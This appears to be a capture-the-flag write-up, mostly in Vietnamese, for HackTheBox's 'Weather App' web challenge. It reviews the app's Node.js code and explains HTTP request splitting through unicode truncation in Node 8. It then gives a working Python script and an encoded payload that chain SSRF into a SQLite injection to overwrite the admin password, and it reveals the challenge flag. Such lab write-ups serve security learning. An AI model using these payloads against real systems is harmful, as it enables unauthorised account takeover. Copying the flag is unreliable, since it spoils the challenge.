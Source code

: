 # HACKTHEBOX - WEB: Weather App

## Overview

1. Website báo thời tiết, từ `/api/weather` nhận tham số `endpoint`, `city`, `country` rồi trả về nhiệt độ, mây mưa các thứ.

2. Challenge cho source code

## CODE REVIEW!!

`routes/index.js`:
```js
// ...........
router.get('/register', (req, res) => {
    return res.sendFile(path.resolve('views/register.html'));
});

router.post('/register', (req, res) => {

    // console.log('\n\n/register\n\n'); // debug
    if (req.socket.remoteAddress.replace(/^.*:/, '') != '127.0.0.1') {
        return res.status(401).end();
    }

    let { username, password } = req.body;

    if (username && password) {
        return db.register(username, password)
            .then(()  => res.send(response('Successfully registered')))
            .catch(() => res.send(response('Something went wrong')));
    }

    return res.send(response('Missing parameters'));
});

router.get('/login', (req, res) => {
    return res.sendFile(path.resolve('views/login.html'));
});

router.post('/login', (req, res) => {
    let { username, password } = req.body;

    if (username && password) {
        return db.isAdmin(username, password)
            .then(admin => {
                if (admin) return res.send(fs.readFileSync('/app/flag').toString());
                return res.send(response('You are not admin'));
            })
            .catch(() => res.send(response('Something went wrong')));
    }
    
    return re.send(response('Missing parameters'));
});

router.post('/api/weather', (req, res) => {
    let { endpoint, city, country } = req.body;

    if (endpoint && city && country) {
        return WeatherHelper.getWeather(res, endpoint, city, country);
    }

    return res.send(response('Missing parameters'));
});
```



`helper/WeatherHelper.js`:
```js
const HttpHelper = require('../helpers/HttpHelper');

module.exports = {
    async getWeather(res, endpoint, city, country) {

        // *.openweathermap.org is out of scope
        let apiKey = '10a62430af617a949055a46fa6dec32f';
        let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); 
        console.log(`\nhttp://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`); // debug

        if (weatherData.name) {
// .....................................
```

`package.json`:
```json
{
    "name": "weather-app",
    "version": "1.0.0",
    "description": "",
    "main": "index.js",
    "nodeVersion": "v8.12.0",
    "scripts": {
        "start": "node index.js"
    },
    "keywords": [],
    "authors": [
        "makelaris",
        "makelarisjr"
    ],
    "dependencies": {
        "body-parser": "^1.19.0",
        "express": "^4.17.1",
        "sqlite-async": "^1.1.1"
    }
}
```

Endpoint `/register` dính SQLi nhưng endpoint này chỉ có thể truy cập từ `locahost`, phần `http.get` có khả năng dính `HTTP Request Splitting`. Hướng khai thác khá rõ ràng, `SSRF` đến endpoint `/register` thực hiện SQLi cướp tài khoản admin rồi login để lấy flag

Nghiên cứu: Nodejs version `8.x` and `6.x` có khả năng dính lỗi `HTTP Request Splitting`. Thư viện `http` của nodejs cũng có khả năng chống SSRF nếu url có chứa các protocol characters và nó sẽ escape bằng cách `percent-escaped`. Tuy nhiên:

Although users of the http module will typically specify the request path as a string, Node.js must ultimately output the request as raw bytes(phải output ra raw byte tức phải convert). JavaScript has unicode strings, so converting them into bytes means selecting and applying an appropriate unicode encoding. For requests that do not include a body, Node.js defaults to using "latin1"(mặc định convert sang latin1), a single-byte encoding that cannot represent high-numbered unicode characters such as the 🐶 emoji. Such characters are instead truncated to just their lowest byte of their internal JavaScript representation

```
> 'http://example.com/\u{010D}\u{010A}/test'
http://example.com/čĊ/test
```
When Node.js version 8 or lower makes a GET request to this URL, it doesn't escape them because they're not HTTP control characters:

But when the resulting string is encoded as latin1 to write it out to the wire, these characters get truncated into the bytes for "\r" and "\n" respectively:

```
> Buffer.from('http://example.com/\u{010D}\u{010A}/test', 'latin1').toString()
'http://example.com/\r\n/test'
```
Thus, by including carefully-selected unicode characters in the request path, an attacker could trick Node.js into writing HTTP protocol control characters out to the wire. The behaviour has been fixed in the recent Node.js 10 release.

Bug report: https://hackerone.com/reports/409943

Explaination: https://www.rfk.id.au/blog/entry/security-bugs-ssrf-via-request-splitting/

Build python script đấm nó thôi;
```python
import requests
import urllib.parse


url = 'http://157.245.46.136:31900/'

sqli = "username={}&password={}".format(urllib.parse.quote_plus("admin', '1') ON CONFLICT(username) DO UPDATE SET password = '1';-- -"), "1")

payload = f'127.0.0.1:80/r/n/r/nPOST /register HTTP/1.1/r/nHost: 127.0.0.1/r/nContent-Type: application/x-www-form-urlencoded/r/nContent-Length: {len(sqli)}/r/n/r/n{sqli}/r/n/r/nGET /param='

payload = payload.replace('/r/n', '\u010d\u010a')
payload = payload.replace(' ', '\u0120')
print(payload)

data = {
    'endpoint': payload,
    'city': 'hanoi',
    'country': ' vietnam'
}

r = requests.post(url+'api/weather', data=data)

print(r.text)
```
Host debug tại local, khi build payload lưu ý:

1. Request đầu cần host lẫn port để thành 1 valid request.
2. Với request thứ 2, payload SQLi cần urlencode nên không thể thiếu `Content-Type`, POST method nên cần `Content-Length`.
3. Kết thúc main request cần end gói request này bằn `\r\n\rn` và đệm tiếp 1 request cuối để valid.
4. Vì SQLite không có `ON DUPLICATE KEY UPDATE <key>=<value>;` nên ta dùng `ON CONFLIC(<key>) DO UPDATE SET <key>=<value>;`.

Duplicate SQLite: https://stackoverflow.com/questions/2717590/sqlite-insert-on-duplicate-key-update-upsert

`encoded payload`:
```
127.0.0.1:80čĊčĊPOSTĠ/registerĠHTTP/1.1čĊHost:Ġ127.0.0.1čĊContent-Type:Ġapplication/x-www-form-urlencodedčĊContent-Length:Ġ110čĊčĊusername=admin%27%2C+%271%27%29+ON+CONFLICT%28username%29+DO+UPDATE+SET+password+%3D+%271%27%3B--+-&password=1čĊčĊGETĠ/param=
```

**flag**: `HTB{w3lc0m3_t0_th3_p1p3_dr34m}`
